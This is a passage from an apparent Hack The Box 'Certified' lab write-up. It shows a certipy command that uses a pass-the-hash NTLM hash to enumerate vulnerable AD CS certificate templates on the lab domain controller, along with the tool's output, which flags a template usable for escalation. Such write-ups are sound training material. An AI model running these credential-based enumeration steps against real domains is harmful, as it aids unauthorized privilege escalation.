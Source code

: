 ## Shell as administrator

### Enumerate ADCS

I’ll run the same `certipy` command again, this time as ca\_operator, and this time the results are different:

```

oxdf@hacky$ certipy find -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
```
